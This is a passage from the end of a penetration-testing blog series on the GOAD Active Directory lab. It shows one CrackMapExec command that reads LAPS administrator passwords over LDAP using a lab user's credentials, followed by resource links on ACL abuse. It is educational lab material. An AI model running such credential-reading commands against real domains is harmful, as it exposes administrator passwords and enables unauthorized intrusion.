 - To read LAPS password, the easy way is with the cme module

```bash
cme ldap 192.168.56.12 -d essos.local -u jorah.mormont -p 'H0nnor!' --module laps
```

![acl_read_laps_cme.png](/assets/blog/GOAD/acl_read_laps_cme.png)

- Works like a charm :)

## Resources: 

- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)
- [https://www.thehacker.recipes/ad/movement/dacl](https://www.thehacker.recipes/ad/movement/dacl)
- [https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse)
- [https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)


Next time, this will be the last blog post of the GOAD writeup series. And it will be on Trusts exploitation ([Goad pwning part12]({% link _posts/2022-12-21-GOADv2-pwning-part12.md %}))